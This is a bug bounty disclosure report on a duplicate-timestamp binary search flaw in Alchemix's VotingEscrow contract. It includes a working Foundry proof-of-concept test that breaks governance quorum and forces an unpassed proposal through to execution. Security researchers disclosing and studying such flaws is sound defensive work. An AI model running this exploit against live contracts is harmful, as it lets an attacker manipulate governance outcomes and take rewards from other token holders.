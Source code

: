 
# Binary search does not correctly handle duplicate timestamps

Submitted on May 3rd 2024 at 05:25:10 UTC by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30655

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Throughout the `VotingEscrow` contract, there are several functions that conduct a binary search to determine the first entry containing a timestamp that's before or equal to a target timestamp. In some of these functions, the binary search does not deterministically handle the scenario where multiple exact matches exist. By strategically checkpointing multiple times on a given timestamp, an attacker can inflate the relative amount of power the system considers them to have. This behavior can be abused to change the results of a governance proposal, or to receive more rewards than intended.

## Vulnerability Details
The `totalSupplyAtT()` function has the following binary search implementation:

```solidity
if (t < lastPoint.ts) {
    uint256 lower = 0;
    uint256 upper = _epoch - 1;

    while (upper > lower) {
        uint256 center = upper - (upper - lower) / 2;
        lastPoint = pointHistory[center];
        if (lastPoint.ts == t) {
            lower = center;
            break;
        } else if (lastPoint.ts < t) {
            lower = center;
        } else {
            upper = center - 1;
        }
    }

    lastPoint = pointHistory[lower];
}
```

Notice that in this function, the binary search is instantly concluded when a match is found. This behavior means that `totalSupplyAtT()` can potentially return *any* of the exact matches in the `pointHistory` mapping. This is incorrect. An example of a correct implementation would be something similar to `_balanceOfTokenAt()`, which always returns the "right-most" (i.e. most recent) exact match. 

This would not be a problem if each entry had a unique timestamp. However, there *can* be duplicate timestamps in the `pointHistory` entries (for example, notice how `_checkpoint()` will always increase `_epoch` by 1). On the other hand there *can't* be duplicate timestamps in the`checkpoints` mapping (for example, see the `_findWhatCheckpointToWrite()` function).

So, in the case of an exact timestamp match, the `getPastVotes()` and `balanceOfTokenAt()` functions always return the state when the timestamp ended, but the `totalSupplyAtT()` function can return any of the states from that timestamp. This leads to incorrect results in places that compare values from both functions (e.g. in the `claimable()` calculation in the `RevenueHandler`, or the `_quorumReached()` function in the `AlchemixGovernor`)

## Impact Details

Consider, for example, the following scenario:

- A proposal in the `AlchemixGovernor` has a snapshot timestamp at time `t`.
- At exactly time `t`, an attacker calls `checkpoint()` and then `createLock()` in the `VotingEscrow` contract.
- There are now two entries in `pointHistory` at timestamp `t` - one with the increased supply from `createlock()`, and one with the original supply.
- The `totalSupplyAtT()` function can return either one depending on the number of epochs. The attacker can force the original supply to be returned by arbitrarily adding more checkpoints (to change the result of the binary search).
- Now, the `_quorum()` value can be arbitrarily changed by calling `checkpoint()`. This means the governance can consider some proposals to have reached quorum, even though they did not.


Other than this, it appears that `RevenueHandler` logic can be tricked into giving a user too many tokens (more than 100% of the entire epoch even).


## References
See the proof of concept below.


## Proof of Concept

I've created the following test case which can be added to the `AlchemixGovernorTest` contract:

```solidity
function testBinarySearchExploit() public {
    /******************************************************************* 
    *    Step 1: someone makes a proposal
    ********************************************************************/
    assertFalse(voter.isWhitelisted(usdc));

    (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
    hevm.warp(block.timestamp + 2 days); // delay

    hevm.startPrank(admin);
    uint256 pid = governor.propose(t, v, c, d, MAINNET);
    uint256 proposalSnapshot = governor.proposalSnapshot(pid);
    address attacker = address(uint160(uint256(bytes32(keccak256("attacker")))));

    /*******************************************************************
    *    Step 2: the proposal snapshot timestamp arrives,
    *    attacker does the exploit
    ********************************************************************/
    hevm.roll(block.number + 1);
    hevm.warp(proposalSnapshot);

    uint256 quorumEstimate = governor.quorum(proposalSnapshot);
    veALCX.checkpoint();
    createVeAlcx(attacker, quorumEstimate * 55 / 100, MAXTIME, false);

    /******************************************************************* 
    *    Step 3: the voting period starts now, the quorum is broken
    ********************************************************************/
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + governor.votingDelay() + 1);

    // Notice that the quorum can be changed by adding new checkpoints.
    // This is just for demonstration purposes. Doing exactly 5 checkpoints gets the attacker
    // back to the larger value (which out of their favor).
    for (uint256 i; i < 5; ++i) {
        veALCX.checkpoint();
        uint256 votingPower = veALCX.getPastVotes(attacker, proposalSnapshot);
        uint256 quorum = governor.quorum(proposalSnapshot);
        console2.log("votingPower:", votingPower);
        console2.log("quorum:", quorum);
        console2.log("attacker has enough voting power:", votingPower >= quorum);
        console2.log("-----------------------");
    }

    hevm.startPrank(attacker);
    governor.castVote(pid, 1);
    hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
    hevm.stopPrank();

    // Currently the vote has failed
    console2.log("Result before:", uint8(governor.state(pid)));

    // But checkpointing now will make it have succeeded
    veALCX.checkpoint();
    console2.log("Result after:", uint8(governor.state(pid)));

    // So now it can actually be executed despite not reaching quorum
    hevm.startPrank(admin);
    hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
    governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);
    hevm.stopPrank();

    assertTrue(voter.isWhitelisted(usdc));
}
```

By running `forge test --rpc-url <ETH_RPC_URL> --match-test testBinarySearchExploit -vvv` I get the following output:


```
[PASS] testBinarySearchExploit() (gas: 2244701)
Logs:
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 47861829982262242211529
  attacker has enough voting power: false
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 47861829982262242211529
  attacker has enough voting power: false
  -----------------------
  Result before: 3
  Result after: 4
```

which shows that a governance proposal can have its result manipulated.